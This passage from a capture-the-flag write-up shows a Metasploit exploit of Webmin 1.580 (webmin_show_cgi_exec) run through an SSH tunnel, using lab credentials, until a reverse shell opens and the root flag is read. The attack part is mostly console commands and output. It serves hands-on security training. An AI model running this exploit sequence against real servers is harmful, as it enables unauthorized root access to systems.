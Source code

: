 ````console
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
````

````console
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.10.1
LHOST => 10.10.10.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 10000
RPORT => 10000
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
username => agent47
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
PASSWORD => videogamer124
````
Now everything is set we can run it.
````console
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.10.10.1:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 7Fb8i0Az0Jq2XHQd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "7Fb8i0Az0Jq2XHQd\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.105.217:50912) at 2022-08-17 17:43:52 +0100

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
````

>What is the root flag?
>
> __Execute ``cat /root/root.txt`` and you will get it__
{: .prompt-tip }

# Conclusion
A cool challenge introducing SSH tunnels with a mix of web and privesc.